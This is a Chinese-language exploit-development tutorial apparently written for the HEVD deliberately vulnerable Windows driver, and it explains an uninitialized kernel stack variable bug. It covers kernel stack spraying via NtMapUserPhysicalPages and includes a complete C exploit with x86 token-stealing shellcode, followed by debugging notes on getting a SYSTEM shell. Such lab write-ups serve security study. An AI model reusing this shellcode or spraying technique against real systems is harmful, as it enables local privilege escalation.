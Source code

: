 <small>转载请注明出处哦 :  )</small>

## 0x00 前言
本篇的内容为未初始化内核栈变量漏洞分析利用 (Uninitialized Stack Variable)

## 0x01 未初始化栈变量漏洞分析
首先我们打开 UninitializedMemoryStack.c 文件

![alt 1](images/uninitializedStackVariable/1.jpg)

结合定义 UninitializedMemory 变量时没有对它进行初始化，可以看到，当我们的输入不等于 MagicValue 时，程序会直接 call [&UninitializedMemory + 4]，而这个值因为没有被初始化，又没有被赋值，所以会直接调用栈上的脏数据。若栈上的脏数据是我们的 shellcode 的地址的话，那我们又可以接管指令流了。

问题是，我们有什么办法可以使栈上的脏数据变为我们的 shellcode 的地址呢？

这里可以用到一种叫做栈喷射的方法，将大块的栈空间提前用我们的 shellcode 的地址去改写。以后若是在这个栈区域上发生了对未初始化函数指针的调用，就会执行我们的指令流了。

那么我们如何做到对内核栈进行喷射呢？（因为我们的漏洞是发生在内核模式下的，漏洞代码所使用的栈空间是内核栈，所以应该是对内核栈进行喷射而不是用户栈）

这里可以用到 NtMapUserPhysicalPages 函数。我们先看看这个函数的官方文档

![alt 2](images/uninitializedStackVariable/2.jpg)

这个函数正常来说是用在 AWE 的使用中的。但是这对我们来说不重要，我们的目的是栈喷射。稍微到 wrk1.2 中看看它的源码，我这里大概将与栈喷射相关的伪代码呈现出来

```c
#define COPY_STACK_SIZE             1024

NTSTATUS
NtMapUserPhysicalPages (
    __in PVOID VirtualAddress,
    __in ULONG_PTR NumberOfPages,
    __in_ecount_opt(NumberOfPages) PULONG_PTR UserPfnArray
    )
{
    ...
    ULONG_PTR StackArray[COPY_STACK_SIZE];
    ...
    PoolArea = (PVOID)&StackArray[0];
    ...

    if (NumberOfPages > COPY_STACK_SIZE) {
        PoolArea = ExAllocatePoolWithTag (NonPagedPool, NumberOfBytes, 'wRmM');
    
        if (PoolArea == NULL) {
            return STATUS_INSUFFICIENT_RESOURCES;
        }
    }
    

    Status = MiCaptureUlongPtrArray (PoolArea, UserPfnArray, NumberOfPages);

    ...
}

NTSTATUS
MiCaptureUlongPtrArray (
    OUT PVOID Destination,
    IN PVOID Source,
    IN ULONG_PTR ArraySize
    )
{
    try{
            ProbeForRead (Source,
                          ArraySize * sizeof(ULONG_PTR),
                          sizeof(ULONG_PTR));

            RtlCopyMemory (Destination,
                           Source,
                           ArraySize * sizeof(ULONG_PTR));

    } except(EXCEPTION_EXECUTE_HANDLER) {
        status = GetExceptionCode();
    }
}

```

大致上说，当我们调用 NtMapUserPhysicalPages 时，会在栈中分配一个 4096 个字节的变量 StackArray，而我们调用 NtMapUserPhysicalPages 时传递的参数 UserPfnArray 会被复制到这个位置上。

对于内核栈来说，4096个字节真的已经算挺大的了。若我们把这一段栈空间全部替换成我们的 shellcode 的地址，然后触发漏洞时未初始化变量所使用的栈又正好在这一段地址上，且这个位置的栈又正好没有被其它函数所修改过的话（从 RtlCopyMemory 执行完直到 UninitializedMemory.Callback() ），那么 UninitializedMemory.Callback() 的时候就会执行我们的 shellcode 了。

所以，没错，当我们调用完 NtMapUserPhysicalPages 后若立即调用 DeviceIoControl 去请求服务触发漏洞的话，这一切就是正好这么凑巧。

： )

## 0x02 未初始化栈变量漏洞利用
这个漏洞的利用原理其实挺简单的，但要真正使这个漏洞生效其实不容易。让变量落在这一段空间中倒是挺可能，毕竟 4096 个字节真的挺大的。问题是你很难确保未初始化变量所在的位置没有被其它函数修改过。

这里贴出 exp

```c
#include "stdafx.h"

#include <windows.h>

typedef NTSTATUS(WINAPI * NtMapUserPhysicalPages_t)(
	PVOID      VirtualAddress,
	ULONG_PTR  NumberOfPages,
	PULONG_PTR PageArray
);

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
	//"\xC2\x10\x00"                  // ret 16
};

int main() {

	int value = 0x1;
	int *payload = &value;
	DWORD lpBytesReturned = 0;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);

	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));
	ULONG_PTR PageArray[1024] = { 0 };
	for (int i = 0; i < 1024; i++) {
		PageArray[i] = (ULONG_PTR)ptr;
	}

	HMODULE hModule = LoadLibrary("ntdll.dll");
	if (hModule == NULL) {
		printf("LoadLibrary failed\n");
		return 0;
	}
	NtMapUserPhysicalPages_t NtMapUserPhysicalPages = (NtMapUserPhysicalPages_t)GetProcAddress(hModule, "NtMapUserPhysicalPages");
	if (NtMapUserPhysicalPages == NULL) {
		printf("get proc address failed\n");
		return 0;
	}
	NtMapUserPhysicalPages(NULL, 1024, PageArray);

	DeviceIoControl(hevDevice, 0x22202f, payload, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

	return 0;

}
```

### 关于 exp 无法 getshell 的可能原因
这里我在调试时发现

![alt 3](images/uninitializedStackVariable/3.jpg)

![alt 4](images/uninitializedStackVariable/4.jpg)

![alt 5](images/uninitializedStackVariable/5.jpg)

（这里就不把图片压缩太多了，不然怕你们看不清，所以加载可能会慢一点）

大家可以看到即使是 esp 再往低地址的空间也被什么东西修改过了，要一直到很远

![alt 6](images/uninitializedStackVariable/6.jpg)

才彻底没有被函数修改过。虽然中间可能存在 shellcode 的 gadget，但可以看到我们的漏洞函数的栈中是不存在任何 shellcode 的地址的。

这时候我就在想啊，一来看别人这个方法都是成功的，二来从 NtMapUserPhysicalPages 到 TriggerUninitializedMemoryStack 也就经历退出内核态回到用户态，以及 DriverEntry -> IrpDeviceIoCtlHandler -> UninitializedMemoryStackIoctlHandler -> TriggerUninitializedMemoryStack 这么一个过程，不至于用掉这么多空间吧。要说这过程中有什么东西可能插手的话，就只有可能是 Debug 了。

然后我就把 HEVD 驱动程序换成了 release 版本的，把 windbg 关掉，诶嘿，还真 getshell 了。

所以如果你的情况和我一样的话（首先确保栈喷射确实成功了），你不妨试试去掉所有 debug 因素。

因为不能把 windbg 开着来 getshell，所以我也不知道最终栈上的结构到底是什么样的，可以确定的一点就只是 UninitializedMemory.Callback 的位置一定是 shellcode 的地址。

## 0x03 结束语

： )

---
<p align='right'>2019.9.5</p>